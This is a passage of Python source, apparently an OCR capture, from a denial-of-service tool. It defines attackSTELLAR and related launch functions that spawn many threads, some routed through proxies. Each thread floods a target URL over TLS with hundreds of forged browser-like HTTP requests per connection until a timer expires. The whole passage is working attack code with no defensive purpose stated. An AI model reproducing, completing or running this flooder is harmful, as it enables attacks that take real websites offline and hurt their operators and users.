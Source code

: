     req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"
    while time.time() < timelol:
        try:
            s = socks.socksocket()
            s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.connect((str(urlparse(url).netloc), int(443)))
            ctx = ssl.SSLContext()
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send(str.encode(req))
            try:
                for _ in range(200):
                    s.send(str.encode(req))
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            s.close()
def attackSTELLAR(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=LaunchSTELLAR, args=(url, timer)).start()

def LaunchSTELLAR(url, timer):
    timelol = time.time() + int(timer) 
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"
    req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"
    while time.time() < timelol:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((str(urlparse(url).netloc), int(443)))
            ctx = ssl.SSLContext()
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send(str.encode(req))
            try:
                for i in range(200):
                    s.send(str.encode(req))
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            s.close()
#endregion
